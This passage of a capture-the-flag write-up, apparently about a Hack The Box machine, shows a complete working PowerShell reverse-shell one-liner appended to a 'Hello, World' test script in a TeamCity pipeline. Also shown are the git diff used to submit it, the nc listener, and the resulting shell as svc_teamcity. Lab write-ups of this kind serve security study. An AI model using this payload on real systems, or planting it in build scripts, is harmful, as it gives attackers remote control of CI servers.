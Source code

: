 ![](images/5d41b9a1-8f3c-466f-9dd8-6fe9e5030389.png)

So I changed my `hello_world.ps1` to:
```powershell
# Simple repo test for Teamcity pipeline
write-host "Hello, World!"
$LHOST = "10.10.14.15"; $LPORT = 1337; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

And to get the diff format we just use git.
```bash
git diff hello_world.ps1 > quacky.patch
```

We can now upload and run it to catch an easy reverse shell.
```zsh
nc -lvnp 1337
Connection from coder.htb:64698
whoami
coder\svc_teamcity
```

# Obtaining User

Because the shell is difficult to use, I decided to upgrade it with [Villian](https://github.com/t3l3machus/Villain). Start Villian, and let the reverse shell connect to TCP port 4443.

After snooping around some files on the box, I found this directory which contained a lot of diff files.
